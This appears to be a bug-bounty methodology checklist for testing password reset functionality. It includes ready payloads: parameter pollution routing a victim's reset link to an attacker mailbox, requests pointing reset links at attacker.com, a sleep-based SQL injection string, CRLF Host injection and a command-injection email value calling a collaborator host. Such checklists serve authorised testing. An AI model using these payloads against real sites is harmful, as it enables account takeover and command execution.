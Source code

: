 # Testing Password Reset Functionality
1. Look for Password Reset Poisoning. (Change the X-Forwarded-host, Referer, Host header to our domain)
2. HTTP Parameter Pollution:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request. 
https://medium.com/@deadoverflow/account-takeover-vulnerability-that-resulted-in-2500-bounty-e1618363878d
4. Broken Crypto - Check if you can guess how the password reset tokens are generated.
5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 
6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.
7. Session/Token is not expiring after password reset.
8. Weak Password Policy - Add only space in password.
9. Request for 2 password reset links and try the older one.
9.1. RTLO: https://hackerone.com/reports/563268
9.2. BYPASS: https://hackerone.com/reports/271324
11. Try:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```
12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```
13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))
14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.
15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.
16. During registration, use homograph in email. Now try password reset.
17. Change the request method and content-type and observer how the application is responding.
18. Append null bytes after your email and observe the response.
19. Try XSS, SSTI etc in the email field.
20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```
21. 2FA auto disabled after password reset.
22. User Enumeration.
23. Check whether any param value is reflecting in the email. Now try HTMLi.
24. XXE (if forgot-password request accepts xml).
25. Missing Rate Limit - Email triggering.
26. If a link with token is sent to the email, try using an old token in a checkout page for example: https://www.youtube.com/watch?v=4w9891MjY4I
27. Password reset token does not expire: Request a password reset link, change the account's email, Check if the password reset link still works
28. Email Verification Bypass 


Reference:
- https://twitter.com/tuhin1729_/status/1437471718142976007
- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature
- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality
